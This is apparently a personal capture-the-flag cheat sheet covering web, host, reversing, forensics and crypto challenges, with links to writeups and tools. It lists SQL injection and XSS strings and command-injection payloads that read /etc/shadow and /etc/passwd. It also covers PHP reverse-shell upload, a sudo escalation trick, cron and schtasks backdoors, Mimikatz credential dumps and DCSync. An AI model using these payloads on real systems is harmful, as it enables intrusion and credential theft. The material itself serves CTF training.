 # Writeups
* [HTB Cyber Apocalypse 2023 writeups](https://github.com/sbencoding/htb_ca2023_writeups)
* [Siunam321 writeups](https://siunam321.github.io/ctf/) - Long list of solutions from CTFs/TryHackMe/Wargames/HTB
* [InfoSecWriteups - CTF Cheatsheet](https://infosecwriteups.com/use-these-cheatsheets-to-increase-your-ctf-speed-ca12a01d396a) - INTEGRATE THIS INTO CHEAT SHEET BELOW

# CTF Techniques
* [Steps to follow in a CTF](https://github.com/chreniuc/CTF)

# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: `curl -I website.com/page.php`

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: `admin' OR 1=1`, `' OR 1=1-- -`, `" OR 1=1-- -`, `" OR 1 or "`, `admin"-- -"`, `admin;-- -'`

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: `|| cat ../flag.txt`, `| cat ../flag.txt`, `&& cat ../flag.txt`, `& cat ../flag.txt`, `; cat ../flag.txt`
Run [valid input] followed by: `|| cat ../../etc/passwd`, `| cat ../etc/shadow`, `&& cat ../etc/shadow`, `& cat ../etc/shadow`, `; cat ../etc/shadow`
Run [valid input] followed by: `|| ifconfig`, `| ifconfig`, `&& ifconfig`, `& ifconfig`, `; ifconfig`

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion

Any option to upload a file: make sure it's php. 
* [PHP Sandbox](https://onlinephp.io/) - Testing PHP code
* [PHP - Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) - Edit and upload this, run nc listener, then access file from target server to establish a shell
* If whitelisting is being used, add an extension to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
* `Nmap -A -v ipaddress` (-A for aggressive, -v for verbose) [-sV not required with -A]
* `Nmap -sC -sV ipaddress` (-sC for script scan, -sV for Version detection)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run `Strings <file> | grep flag`
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)
* [Reverse Engineering for Beginners - Free ELearning](https://www.begin.re/)
* [Cutter - RE Platform for Linux](https://cutter.re/)
 * [Cutter Example with HTB CTF2023 Challenge "Shatter Tablet"](https://www.youtube.com/watch?v=iCNLn3nvEZA)
* [IDA - Common Code Disassembler](https://hex-rays.com/ida-free/)
 * [IDA Basics Tutorial](https://resources.infosecinstitute.com/topic/basics-of-ida-pro-2/)
* [Ghidra - Common Decompiler](https://ghidra-sre.org/)
 * [Ghidra - NSA GitHub](https://github.com/NationalSecurityAgency/ghidra)
 * [Ghidra Install & Basics Tutorial](https://www.kalilinux.in/2021/06/ghidra-reverse-engineering-kali-linux.html)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: `http contains flag`, `tcp contains flag`
  * Right-click packet and select `Follow stream`
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  
* ps1 = Powershell

# Crypto
* [Cracking RSA with Chinese Remainder Theory - Calculator](https://asecuritysite.com/rsa/rsa_ctf02)
